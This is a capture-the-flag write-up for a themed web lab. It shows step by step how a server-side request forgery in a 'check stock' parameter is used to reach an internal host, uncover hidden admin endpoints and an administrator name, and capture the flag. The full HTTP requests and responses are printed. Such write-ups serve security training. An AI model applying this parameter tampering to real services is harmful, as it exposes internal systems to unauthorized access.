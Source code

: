 Tomb Entrance  You stand before the magnificent entrance to the tomb of Pharaoh Amenhotep. The massive stone door is adorned with intricate hieroglyphs and symbols of power.

Note: Your browser may display a security warning due to the lab's SSL certificate. This is expected and does not indicate any real security risk.

Tools needed: Burp Suite or equivalent

https://64.225.103.251:5001/

We can find hint in the  hieroglyphs on the site
```
....herein lies the localtomb of the great administrator pharaoh... only those who know the sacred pathways may enter... speak the true name to reveal what lies beyond these walls...
```

Using the "check stock" function makes a request to another domain, seen in the parameter in the request.

```
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 69
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Fvalley-of-kings.net%2Fcontents%2Fartifacts
```

```
decoded URL
http://valley-of-kings.net/contents/artifacts
```


From the hint in the heiroglyphs we can guess a URL:
```http://localtomb/pharaoh```

```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 44
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh
```

We get multiple "admin-buttons" we could use. An also some more hieroglyphs we could translate.
```html
       <div class="admin-buttons" style="display: flex; flex-wrap: wrap; gap: 10px; margin-top: 15px;">
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="treasury">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="servants">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="tribute">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡</button>
            </form>
            
            <form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer; font-weight: bold;" class="hieroglyphs">𓏬𓋏𓋏𓆣𓉡𓉡𓋪𓄁𓆣𓋏𓍄𓆣𓎛𓋪𓇁𓊿𓋫𓈬</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="monuments">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡</button>
            </form>
        </div>
```

In order top-bottom:
𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡 = View Treasury Contents
𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡 = Manage Servants
𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡 = Record Tributes
𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡 = Plan Monuments

The third buttons has an interesting action
```html
<form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
```

Make a new request to that endpoint:
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 66
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh/bfsifj5mi3/secrettomb
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 676
Connection: keep-alive
Vary: Cookie

<div class="secret-tomb" style="font-family: 'IM Fell English SC', serif";>
    <h3>The Secret Tomb</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;">HIGHLY RESTRICTED AREA - UNAUTHORIZED ACCESS DETECTED</p>
    
    <div style="margin: 20px 0; padding: 20px; border: 2px dashed #8b4513; background-color: #f9e5a1; text-align: center;">
        <h4 style="color: #c4512b;">ADMINISTRATOR INFORMATION</h4>
        <p>Authentication required to enter the inner chamber.</p>
        <p>Administrator name:</p>
        <p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
</div>
```

Sacred name = Seti-Thutmose-the-Great
![](TLTOPA_Speak_Name.png)

![](TLTOPA_Solved.png)
Flag: O24{4nkh_th3_k3y_0f_l1f3_unl0ck5_7h3_s4cr3d_t0mb}
